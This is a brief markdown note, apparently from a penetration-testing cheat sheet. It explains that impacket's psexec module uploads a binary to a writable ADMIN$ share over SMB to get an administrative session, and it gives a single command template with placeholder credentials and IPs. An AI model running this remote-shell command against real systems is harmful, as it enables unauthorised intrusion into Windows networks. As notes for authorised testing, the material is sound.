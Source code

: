 ## This impacket module is used to gain administrative access over SMB.

## If the user has write permissions on the $ADMIN share, then the module uploads a malicious binary to it, then gives us a session.

#### 1) impacket-psexec 'DOMAIN.COM/USERNAME:PASSWORD'@IP_ADDRESS -dc-ip DC_IP
